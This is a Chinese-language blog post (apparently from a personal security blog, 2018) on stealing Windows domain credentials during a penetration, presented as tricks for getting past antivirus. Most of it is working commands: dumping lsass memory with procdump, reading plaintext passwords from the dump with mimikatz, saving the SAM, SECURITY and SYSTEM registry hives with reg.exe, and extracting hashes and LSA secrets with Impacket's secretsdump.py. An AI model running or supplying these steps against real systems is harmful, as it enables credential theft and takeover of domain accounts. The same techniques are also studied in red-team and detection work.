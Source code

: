 ```yaml
---
layout: post
title: 导出域内用户hash或密码记录
date: 2018-12-13 23:30:00
tags: 域渗透
categories: hack 
author: PythonPig
---
```

* content
{:toc}


### \#0x00 写在前面 
域渗透过程简单来说：搞定域内某机器—获取域管登录凭证—登录域控导出所有用户hash—完毕
在目标机器上使用mimikatz导出用户密码时经常遇到杀软，本文主要收集各种绕过杀软的小技巧。  

![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%AF%BC%E5%87%BA%E5%9F%9F%E5%86%85%E7%94%A8%E6%88%B7hash%E6%88%96%E5%AF%86%E7%A0%81%E8%AE%B0%E5%BD%95/hash_hack.jpg?raw=true) 图片来源于https://www.blackhillsinfosec.com/got-privs-crack-those-hashes/

本文中的方法主要有：  
1、方法一：从内存中dump lsass进程的数据，本地mimikatz读取明文密码（procdump.exe+mimikatz）  
2、方法二：从注册表中读取用户hash（Impacket或Cain）  





### \#0x01 从内存中dump lsass进程的数据后本地读取密码
##### 1、导出lsass进程的内存数据
导出lsass进程的内存数据使用的是微软官方的工具[procdump.exe](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump)，肯定可以免杀。  
在目标机器上执行：  
```
procdump64.exe -accepteula -ma lsass.exe lsass.dmp
```
将在本目录下生成lsass.dmp    
##### 2、本地读取lsass.dmp中的密码  
将lsass.dmp下载会本地后使用mimikatz读取密码，注意，本地运行mimikatz的机器版本要于目标机器版本兼容，其对应关系如下：  
![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%AF%BC%E5%87%BA%E5%9F%9F%E5%86%85%E7%94%A8%E6%88%B7hash%E6%88%96%E5%AF%86%E7%A0%81%E8%AE%B0%E5%BD%95/systems.png?raw=true)

在本地机器上通过mimikatz执行如下命令(注意mimikatz.exe与lsass.dmp同目录)：  
```
sekurlsa::minidump lsass.dmp
sekurlsa::logonPasswords full
```

由于lsass.dmp一般比较大，可能几十甚至上百兆，下载回本地比较困难，若域内有版本满足上图要求且已控并可以运行mimikatz的机器的话，可以在已控的机器上运行如下命令，毕竟域内机器之间传输lsass.dmp要快且方便的多。  
```
mimikatz.exe "privilege::debug" "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" "exit" >> C:\PerfLogs\log.txt
```

### \#0x02 从注册表中读取用户hash（Impacket或Cain）
##### 1、复制注册表项
需要复制的注册表项有：  
```
HKEY_LOCAL_MACHINE\SAM
HKEY_LOCAL_MACHINE\SECURITY
HKEY_LOCAL_MACHINE\SYSTEM
```
执行如下命令：  
```
C:\> reg.exe save hklm\sam c:\sam.save
C:\> reg.exe save hklm\security c:\security.save
C:\> reg.exe save hklm\system c:\system.save
```
解释下这三个注册表项：  
The SAM subkey refers to information about Security Accounts Manager (SAM) databases for domains. Within each database are group aliases, users, guest accounts, and administrator accounts, plus the name used to log in to the domain, cryptographic hashes of each user's password, and more.

The SECURITY subkey is used to store the security policy of the current user. It's linked to the security database of the domain where the user is logged in, or to the registry hive on the local computer if the user is logged in to the local system domain.

To see the contents of the SAM or SECURITY key, the Registry Editor must instead be opened using the System Account, which has greater permissions than any other user, even a user with administrator privileges.

HKEY_LOCAL_MACHINE\SYSTEM用来解密HKEY_LOCAL_MACHINE\SAM和HKEY_LOCAL_MACHINE\SECURITY，其中HKEY_LOCAL_MACHINE\SAM主要包含本地用户hash和用户的一些属性信息，HKEY_LOCAL_MACHINE\SECURITY主要包含缓存的域用户凭证和LSA Secrets。
##### 2、提取注册表项中的用户hash
提取注册表项中的用户hash有多中工具，常用的有Impacket的secretsdump.py和Cain，Cain的使用见[MSSQL弱口令的几种利用方法](https://pythonpig.github.io/2018/10/25/MSSQL%E5%BC%B1%E5%8F%A3%E4%BB%A4%E7%9A%84%E5%87%A0%E7%A7%8D%E5%88%A9%E7%94%A8%E6%96%B9%E6%B3%95/);这里以secretsdump.py为例进行说明。  
执行以下命令  

获取sam中的用户hash及security中缓存的域用户凭证和LSA Secrets  
```
secretsdump.py  -sam sam.save -security security.save -system system.save LOCAL
```
执行结果如下所示  
![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%AF%BC%E5%87%BA%E5%9F%9F%E5%86%85%E7%94%A8%E6%88%B7hash%E6%88%96%E5%AF%86%E7%A0%81%E8%AE%B0%E5%BD%95/reg_hash%20copy.png?raw=true)

也可以单独获取hash或域用户凭证  
获取sam中的用户hash  
```
secretsdump.py  -sam sam.save -system system.save LOCAL
```
获取security中缓存的域用户凭证和LSA Secrets  
```
secretsdump.py  -security security.save -system system.save LOCAL
```


## 未完待续……

### \#0x03 参考
* [Dumping Windows Credentials](https://www.securusglobal.com/community/2013/12/20/dumping-windows-credentials/)
* [HKEY_LOCAL_MACHINE (HKLM Registry Hive)](https://www.lifewire.com/hkey-local-machine-2625902)  


